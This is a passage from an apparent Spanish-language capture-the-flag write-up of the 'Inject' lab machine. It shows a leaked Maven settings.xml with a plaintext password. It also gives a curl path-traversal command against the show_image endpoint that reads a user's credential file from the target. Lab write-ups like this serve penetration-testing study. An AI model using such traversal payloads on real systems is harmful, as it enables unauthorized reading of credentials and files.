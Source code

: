 ```ruby
   8   │       <password>DocPhillovestoInject123</password>
   9   │       <privateKey>${user.home}/.ssh/id_dsa</privateKey>
  10   │       <filePermissions>660</filePermissions>
  11   │       <directoryPermissions>660</directoryPermissions>
  12   │       <configuration></configuration>
  13   │     </server>
  14   │   </servers>
  15   │ </settings>
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
                                                                                                                
```

- Tenemos el usuario y una contraseña que podemos probar para ingresar por ssh pero no funciona, igual podría servirnos para cambiar de usuario dentro de la propia máquina victima. 
- Vemos el usuario phil pero no nos deja leer nada.

![](../assets/images/Inject/web8.png)

- Nos guardamos el archivo:
  `curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../../../home/frank/.m2/settings.xml" | cat -l xml > settings.xml`
- Como no podemos listar mucha información lo que haremos es llegar a la carpeta del propio contenido de web.

![](../assets/images/Inject/web9.png)

- Vamos a llegar hasta WebApp y ver lo que tiene. 
